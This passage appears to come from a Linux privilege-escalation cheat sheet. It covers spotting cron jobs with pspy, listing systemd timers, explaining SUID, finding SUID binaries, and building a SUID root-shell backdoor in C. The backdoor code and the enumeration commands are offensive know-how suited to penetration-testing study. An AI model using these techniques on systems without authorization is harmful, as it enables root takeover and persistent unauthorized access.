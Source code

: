 You can use [pspy](https://github.com/DominicBreuker/pspy) to detect a CRON job.

```powershell
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```


## Systemd timers

```powershell
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```

## SUID

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is ran, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

```powershell
╭─swissky@lab ~  
╰─$ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
```

### Find SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```


## Capabilities
